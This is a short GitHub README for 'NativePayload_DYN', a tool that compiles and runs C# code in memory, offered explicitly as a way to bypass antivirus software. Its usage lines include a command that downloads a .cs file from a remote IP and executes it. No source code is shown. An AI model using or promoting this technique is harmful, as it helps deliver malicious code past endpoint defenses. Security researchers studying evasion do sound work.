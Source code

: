 # NativePayload_DYN

### Compiling Csharp in-memory and Execute to bypass AVs

#### Note: Code created by me in [Jun 2017] and Published in [Mar 2023] ;D but still can help you to bypass some AVs ;)

#### Note: ALL AVs in 2017 Bypassed by this simple code but for now i am not sure for this. 

<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_DYN"/></a></p>

usage:
      
    NativePayload_DYN.exe -f "class1.cs"
    NativePayload_DYN.exe -w "http://192.168.56.10/class1.cs"

